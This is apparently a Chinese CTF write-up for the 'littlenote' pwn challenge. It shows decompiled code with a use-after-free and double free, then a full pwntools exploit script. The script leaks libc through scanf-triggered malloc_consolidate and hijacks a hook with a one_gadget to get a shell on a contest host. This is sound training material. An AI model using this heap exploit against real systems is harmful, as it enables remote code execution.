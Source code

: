 # 铁三总决赛 littlenote
## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>一开始以为总决赛的题目会很难。。后来竟然三题里连我都做出了两题，题目都是glibc2.23的，算是非常经典常规的题目，没有tcache，也没有内核题。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>不多说了，先来看第一题，非常简单，冲脸就是一个**UAF和double free**，要点就在于如何泄露libc地址，这里用scanf就可以很简单的做到（**输入超长字符串给scanf就可以调用malloc分配largebin造成malloc_consolidate**），这里坑就坑在我以为任何字符串都可以Orz，后来发现**\%u,%d之类的只能传数字**，不然输啥都不会malloc largebin。</font></br>
&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>老样子先看看IDA分析的伪代码：</font></br>

**main**
```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init();
  memset(&s, 0, 0x10uLL);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &s, 0xFuLL);
      v3 = atoi(&s);
      if ( v3 != 2 )
        break;
      shownote();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        freenote();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid option!");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      addnote();
    }
  }
}
```

**addnote**

```C
unsigned __int64 addnote()
{
  __int64 v0; // rbx
  __int64 v1; // rbx
  char buf; // [rsp+0h] [rbp-20h]
  unsigned __int64 v4; // [rsp+8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  if ( (unsigned __int64)notenum > 0xF )
    puts("FULL");
  v0 = notenum;
  note[v0] = (const char *)malloc(0x60uLL);
  puts("Enter your note");
  read(0, (void *)note[notenum], 0x60uLL);
  puts("Want to keep your note?");
  read(0, &buf, 7uLL);
  if ( buf == 'N' )
  {
    puts("OK,I will leave a backup note for you");
    free((void *)note[notenum]);
    v1 = notenum;
    note[v1] = (const char *)malloc(0x20uLL);
  }
  ++notenum;
  puts("Done");
  return __readfsqword(0x28u) ^ v4;
}
```

**shownote**

```C
unsigned __int64 shownote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Which note do you want to show?");
  _isoc99_scanf("%u", &v1);
  if ( v1 < (unsigned __int64)notenum )
  {
    if ( note[v1] )
      puts(note[v1]);
    puts("Done");
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

**freenote**

```C
unsigned __int64 freenote()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Which note do you want to delete?");
  _isoc99_scanf("%u", &v1);
  if ( v1 < (unsigned __int64)notenum )
  {
    if ( note[v1] )
      free((void *)note[v1]);
    puts("Done");
  }
  else
  {
    puts("Out of bound!");
  }
  return __readfsqword(0x28u) ^ v2;
}
```


&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以我们只要分配一系列fastbin，然后free之，直接就有重叠堆块了，然后用malloc_consolidate就可以泄露libc地址，再利用double free就可以把指针分配到\__free_hook上去，就做完了:)</font></br>

```python
#encoding:utf-8

from pwn import *

context.log_level='debug'

#p=process('./littlenote',env={'LD_PRELOAD':'./libc.so.6'})
p = remote('202.0.1.56',40001)
elf=ELF('./libc.so.6')

free_hook=elf.symbols['__free_hook']
one_gadget=0xf0274

sd=lambda x : p.send(x)
sl=lambda x : p.sendline(x)
sla=lambda a,x : p.sendlineafter(a,x)
rv=lambda x : p.recvuntil(x)
sa=lambda a,x : p.sendafter(a,x)


def alloc(content='',is_keep='Y'):
    sla('Your choice:\n','1')
    sla('Enter your note\n',content)
    sla('Want to keep your note?\n',is_keep)

def show(index,out=0,content=''):
    sla('Your choice:\n','2')
    if out:
        sla('Which note do you want to show?\n',content)
    else:
        sla('Which note do you want to show?\n',str(index))

def dele(index):
    sla('Your choice:\n','3')
    sla('Which note do you want to delete?\n',str(index))


alloc()     # 0
alloc()     # 1
alloc()     # 2
alloc()     # 3

dele(0)
dele(1)
dele(2)

show(2)
chunk_base=u64(p.recv(6)+2*'\x00')-0x70
log.info('chunk_base:'+hex(chunk_base))

# malloc_consildate在这
# 不懂的调试看看结果
# 或者在how2pwn里找一下我记得有demo
show(0,1,'1'*0x400)

alloc()     # 4 (0)
show(4)
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4c0a
log.info('libc_base:'+hex(libc_base))

alloc()     # 5 (1)
alloc()     # 6 (2)

dele(4)
dele(1)
dele(0)

alloc(p64(libc_base+0x3c4aed))
alloc(p64(libc_base+0x3c4aed))
alloc(p64(libc_base+0x3c4aed))
alloc('a'*0x13+p64(libc_base+one_gadget))

sla('Your choice:\n','1')

p.interactive()


'''
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0274	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1117	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```
